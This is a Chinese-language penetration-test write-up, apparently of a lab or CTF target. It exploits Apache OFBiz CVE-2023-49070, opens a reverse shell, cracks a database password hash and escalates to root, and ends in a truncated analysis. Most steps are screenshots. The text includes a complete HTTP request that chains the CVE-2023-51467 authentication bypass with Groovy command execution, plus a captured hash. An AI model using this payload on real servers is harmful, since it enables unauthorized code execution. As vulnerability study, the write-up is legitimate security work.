# 记一次外网打点从CVE-2023-49070到CVE-2023-51467获取域控权限的过程-先知社区

> **来源**: https://xz.aliyun.com/news/18007  
> **文章ID**: 18007

---

# 信息收集

## 端口扫描

使用nmap进行端口探测，发现存在22，80，443，41525等端口开放。


然后探测具体协议。



## Web页面

访问web页面。


发现存在web-INF接口。

## 目录爆破

使用工具爆破目录。



## CVE漏洞搜索

发现存在cve-2023-49070漏洞，漏洞原因是：Apache Ofbiz 18.12.09 中的预认证 RCE。这是由于 XML-RPC 不再维护而仍然存在。此问题影响 Apache OFBiz：18.12.10 之前的版本。建议用户升级到版本 18.12.10。

使用poc进行测试。



# 漏洞利用

访问页面。



进行漏洞利用。

配置环境为jdk11.



## 命令执行漏洞

然后使用工具进行执行命令尝试。



## 反弹shell

接着进行反弹shell



升级shell权限。

# 内网信息收集

接着进行内网收集，发现一个压缩包。

解压之后，查看压缩包内容。



## 查看日志文件

查看日志文件，发现存在derby.log文件。



查看日志文件，发现存在数据库信息。



运行IJ工具，进行枚举数据库。



## 获取数据库用户hash

通过翻找数据库文件，发现存在用户密码的HASH。





接着进行破解用户hash。

```
 |$SHA$d$uP0_QaVBpDWFeo8-dRzD
```



## hash爆破

尝试进行hash爆破。



# 权限提升

接着使用su -进行权限提升，切换到root用户。

## 获取root.txt



# 总结

## CVE-2023-51467

### 影响版本

Apache ofbiz applications < =18.12.10 due to xml-rpc java deserialzation bug.  
多了个版本，在18.12.10中，官方移除了xmrpc组件，但是鉴权问题仍然存在，咱就是说不能一起修了。

### 漏洞复现

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

groovyProgram=throw+new+Exception('calc'.execute().text);
```

这一个是用groovy表达式rce，配合鉴权绕过，那么就可以访问任意接口，因此rce的可能性还是那么大。

### 漏洞分析

鉴权部分就一样了。groovy执行部分如下

```
if (!parameters.groovyProgram) {
    groovyProgram = '''
// Use the List variable recordValues to fill it with GenericValue maps.
// full groovy syntaxt is available

import org.apache.ofbiz.entity.util.EntityFindOptions

// example:

// find the first three record in the product entity (if any)
